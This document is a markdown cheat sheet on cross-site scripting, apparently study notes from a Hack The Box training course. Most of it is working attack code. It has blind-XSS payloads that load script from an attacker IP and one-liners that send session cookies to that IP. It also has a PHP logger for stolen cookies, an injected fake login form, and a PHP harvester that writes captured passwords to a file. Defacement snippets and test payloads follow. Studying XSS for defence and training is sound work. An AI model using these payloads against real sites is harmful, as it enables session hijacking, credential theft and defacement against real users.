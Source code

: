 # Cross-Site Scripting (XSS)

## Discovery
### xsstrike.py
```bash
python xsstrike.py -u "http://SERVER_IP:PORT/index.php?task=test" 
```
### Manual
Manually test payloads against input fields
[PayloadAllTheThings](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/XSS%20Injection/README.md)
[PayloadBox](https://github.com/payloadbox/xss-payload-list)

### Code Review
Review the source code for the page and the JS in Developer Tools

## Session Hijacking (Stealing Session Cookie)
### Blind XSS Detection
Use a payload that will send a request back to our webserver
Payloads:
```html
<script src="http://OUR_IP/script.js"></script>
```
Change the script name to the field we are testing
```html
<script src="http://OUR_IP/username"></script>
```
If we get a request for /username, then we know that field is vulnerable

Examples from [PayloadAllTheThings](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/XSS%20Injection#blind-xss)
```html
<script src=http://OUR_IP></script>
'><script src=http://OUR_IP></script>
"><script src=http://OUR_IP></script>
javascript:eval('var a=document.createElement(\'script\');a.src=\'http://OUR_IP\';document.body.appendChild(a)')
<script>function b(){eval(this.responseText)};a=new XMLHttpRequest();a.addEventListener("load", b);a.open("GET", "//OUR_IP");a.send();</script>
<script>$.getScript("http://OUR_IP")</script>
```
### The Session Hijack
We need code to send the session cookie back to our listener(nc or php(same as above))
More Examples from [PayloadAllTheThings](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/XSS%20Injection#exploit-code-or-poc)

```javascript
document.location='http://OUR_IP/index.php?c='+document.cookie;
new Image().src='http://OUR_IP/index.php?c='+document.cookie;
```
We can host the malicious JS as well...
Put the malicious code in a file called script.js
```javascript
new Image().src='http://OUR_IP/index.php?c='+document.cookie
```
Then you can inject the following:
```html
<script src=http://OUR_IP/script.js></script>
```
It's possible we might get multiple cookie values. Change the php code to the following to save them to a file:
```php
<?php
if (isset($_GET['c'])) {
    $list = explode(";", $_GET['c']);
    foreach ($list as $key => $value) {
        $cookie = urldecode($value);
        $file = fopen("cookies.txt", "a+");
        fputs($file, "Victim IP: {$_SERVER['REMOTE_ADDR']} | Cookie: {$cookie}\n");
        fclose($file);
    }
}
?>
```
Sample result:
```bash
10.10.10.10:52798 [200]: /script.js
10.10.10.10:52799 [200]: /index.php?c=cookie=f904f93c949d19d870911bf8b05fe7b2
```
Finally we can use the cookie on the login page to login.
Navigate to the page
Open developer tools
Storage tab
Click '+' to add cookie (Name is the part before the '=' and value is the part after)

## Phishing (Fake Login Form)
### Login form Injection
```html
<h3>Please login to continue</h3>
<form action=http://attackerip>
    <input type="username" name="username" placeholder="Username">
    <input type="password" name="password" placeholder="Password">
    <input type="submit" name="submit" value="Login">
</form>
```
Login form minified and inserted into document.write parameter
```javascript
document.write('<h3>Please login to continue</h3><form action=http://OUR_IP><input type="username" name="username" placeholder="Username"><input type="password" name="password" placeholder="Password"><input type="submit" name="submit" value="Login"></form>');
```

### Cleanup
Remove unwanted fields with the using document.getElementByID().remove() function
Find the "id="x" in the form to be removed. (x = 'urlform' in the below example
```javascript
document.getElementById('urlform').remove();
```

Completed script example
```javascript
document.write('<h3>Please login to continue</h3><form action=http://OUR_IP><input type="username" name="username" placeholder="Username"><input type="password" name="password" placeholder="Password"><input type="submit" name="submit" value="Login"></form>');document.getElementById('urlform').remove();
```

Start netcat to listen for a connection
```bash
sudo nc -lvnp 80
```
Example Response:
```bash
connect to [10.10.XX.XX] from (UNKNOWN) [10.10.XX.XX] XXXXX
GET /?username=test&password=test&submit=Login HTTP/1.1
Host: 10.10.XX.XX
...SNIP...
```
Capture responses with php (Capture credentials to creds.txt)
```php
<?php
if (isset($_GET['username']) && isset($_GET['password'])) {
    $file = fopen("creds.txt", "a+");
    fputs($file, "Username: {$_GET['username']} | Password: {$_GET['password']}\n");
    header("Location: http://SERVER_IP/phishing/index.php");
    fclose($file);
    exit();
}
?>
```
Start the php listener
```bash
sudo php -s 0.0.0.0:80
```
## Defacing
### Changing the Background
```html
<script>document.body.style.background = "#141d2b"</script>
<script>document.body.background = "https://www.hackthebox.eu/images/logo-htb.svg"</script>#Sets an image as background
```
### Change Page Title
```html
<script>document.title = 'HackTheBox Academy'</script>
```
### Change Page Text
```javascript
document.getElementById("todo").innerHTML = "New Text"
$("#todo").html('New Text'); #jquery
```
### Change Entire Site
```javascript
document.getElementsByTagName('body')[0].innerHTML = "New Text"
```
```html
<script>document.getElementsByTagName('body')[0].innerHTML = '<center><h1 style="color: white">Cyber Security Training</h1><p style="color: white">by <img src="https://academy.hackthebox.com/images/logo-htb.svg" height="25px" alt="HTB Academy"> </p></center>'</script>
```

## Stored XSS (Persistent XSS)

### Testing
User input is shown on the page

Test Payloads

```html
<script>alert(window.origin)</script> # This will pop up a window showing the source URL for the popup window(iframes)
<script>print()</script> # Will pop up the printer dialog
<plaintext> # Should render the rest of the page as plain text.
```
To verify the payload is stored on the back-end, refresh the page. If the alert comes back, it's stored/persistent

## Reflected XSS
Reflected - Gets Processed by the back-end server
DOM-based - Completely Processed on the client-side
Neither are persistent through a page refresh

### Reflected
Look for user input to be displayed as part of an error messages

Test Payloads

```html
<script>alert(window.origin)</script> # This will pop up a window showing the source URL for the popup window(iframes)
<script>print()</script> # Will pop up the printer dialog
<plaintext> # Should render the rest of the page as plain text.
```
Payloads will **NOT** be rendered by the browser on execution

**Targeting**
Target users by sending them a GET-Request URL containing our payload

### DOM-Based
Completely Processed on the client side (JS used to change page source through the Document Object Model(DOM)
No HTTP requests made (Developer Toos/Network Tab)
Check the URL for the parameters
Page source does not change when refreshed (Parameter passed in the URL rather than added to the page source)
**Source**=JS object that takes user input (Can be any input parameter like a url parameter or an input field)
**Sink**=JS function that writes user input to a DOM object on the page. 

Common JS Functions that write to DOM objects:
```javascript
document.write()
DOM.innerHTML
DOM.outerHTML
```

Common jQuery library functions that write to DOM objects
```javascript
add()
after()
append()
```

Example:
```javascript
var pos = document.URL.indexOf("task=");#task paramter in URL
var task = document.URL.substring(pos + 5, document.URL.length);
```
```javascript
document.getElementById("todo").innerHTML = "<b>Next Task:</b> " + decodeURIComponent(task);#innerHTML used to write to the screen (task)
```
Test Payloads
```html
<img src="" onerror=alert(window.origin)>
```

